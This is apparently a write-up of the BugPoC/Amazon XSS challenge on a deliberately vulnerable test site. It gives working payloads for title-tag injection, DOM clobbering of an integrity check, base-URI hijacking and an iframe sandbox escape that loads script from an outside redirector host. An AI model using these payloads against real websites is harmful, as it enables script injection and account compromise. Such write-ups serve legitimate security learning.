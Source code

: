 # Write-up (XSS Challenge Amazon BugPoC)
* ## Target Website - wacky.buggywebsite.com
  * iframe loaded with src **wacky.buggywebsite.com/frame.html?param=hello**

* ## wacky.buggywebsite.com/frame.html?param=g
  * **XSS found on frame.html** - `<title>` is vulnerable to XSS!
  ```
  https://wacky.buggywebsite.com/frame.html?param=</title></head><body><b>hello</b></body><!--
  ```

    ![](2020-11-05-04-29-22.png)

  * **Cannot run inline scripts (nonce)!!!!**
  * Created an iframe with `name="iframe"` to run `frame.html?param=g`, since the page will only execute if run from inside a window named `iframe`:
  ```html
  </title></head><body><iframe src='https://wacky.buggywebsite.com/frame.html?param=g' name='iframe'></body><!-->
  ```
    
    ![](2020-11-05-04-34-30.png)
  
  * This enables the script inside frame.html 
* Looking at frame.html :
  
  ![](2020-11-05-04-36-09.png)

* This script inside `frame.html` can help us **bypass CSP**
* My idea involved leveraging the previous XSS to change **BASE URI** and then load the `files/analytics/js/frame-analytics.js` through a mock landing page using BugPoC Flexible Redirector and Mock landing page. 
---
## Step 1 - Bypass fileIntegrity check!
Inside the iframe : 
* For the script to successfully execute, we need to have the `fileIntegrity.value` in control!
* **DOM Clobbering** can be useful for this.
* Add an input field with `id = fileintegrity` and `value = controlled value(sha256sum of script)`
    ```
    https://wacky.buggywebsite.com/frame.html?param=%3C/title%3E%3C/head%3E%3Cbody%3E%3Ciframe%20src=%22https://wacky.buggywebsite.com/frame.html?param=%3C/title%3E%3C/head%3E%3Cinput%20id=%27fileIntegrity%27%20value=%27123%27%3E%22%20name=%22iframe%22%3E%3C/body%3E%3C!--
  ```
    ![](2020-11-05-05-02-47.png)
* This lets us control the `fileIntegrity.value` -

    ![](2020-11-05-05-04-00.png)

---

## Step 2 - Leveraging XSS in title to change BASE URI 
* When the above discussed script is allowed to execute, it creates another iframe of `class='invisible'`. Further, on integrity check success, it will also dynamically load a script from `files/analytics/js/frame-analytics.js`.

* Since, the address is relative, using a `<base>` URI tag inside the iframe to change the root can help us execute our own script.

* As we can see "allow-scripts" and "allow-same-origin" both are used together, this wrongly configured sandbox can be escaped by a script 

* Now we only need to add `<base>` to the inner iframe head to change the Base URI pointing to a **Flexible Redirector Link**.

```html
</title><base href='{link1}'><input id='fileIntegrity' value='{hashvalue}'></input></head>
```
* This will be our input to the inner iframe `frame.html?param=`. Where, `link1` is the **Flexible redirector link** and `hashvalue` is the controlled **sha256sum** of our script.

---
## Step 3 - Escaping sandboxed iframe
* This is the part where we will leverage the **misconfigured iframe sandbox**.
* To escape the sandbox we need our javascript to :
    
    1. Create new iframe element in parent document.
    2. Load a script in the new iframe.

```javascript
let par = window.parent.document.createElement('iframe');
window.parent.document.body.append(par);
let testscript = document.createElement('script');
testscript.setAttribute('src', 'https://bmd739pgx1wj.redir.bugpoc.ninja');
par.contentDocument.body.appendChild(testscript);
``` 
* Following HTTP headers:
```http
{
	"Access-Control-Allow-Origin": "*",
	"Content-Type": "application/javascript"
}
```
* The **Flexible Redirect Link for script 1** :
```URL
https://we99f6n9ocq5.redir.bugpoc.ninja
```
* We would also need another script hosted :
```javascript
alert(origin);
```
* And it's HTTP headers:
```http
{
	"Access-Control-Allow-Origin": "*",
	"Content-Type": "application/javascript"
}
```
* The **Flexible Redirect Link for script 2**:
```URL
https://bmd739pgx1wj.redir.bugpoc.ninja
```
---
## Final
* The Final payload:

```
https://wacky.buggywebsite.com/frame.html?param=%3C/title%3E%3C/head%3E%3Cbody%3E%3Ciframe%20src%3D%22frame.html%3Fparam%3D%253C/title%253E%253Cbase%2520href%253D%2527https%253A//we99f6n9ocq5.redir.bugpoc.ninja%2527%253E%253Cinput%2520id%253D%2527fileIntegrity%2527%2520value%253D%2527rPtGsrgiV%252BiSg8XMjRLm%252BFgW8txbfFy3K4fjdIcOdUY%253D%2527%253E%253C/input%253E%253C/head%253E%22%20name%3D%22iframe%22%3E%3C/iframe%3E%3C/body%3E%3C%21--
```

### NOTE: All payloads are URL encoded. 

![](2020-11-05-07-47-20.png)
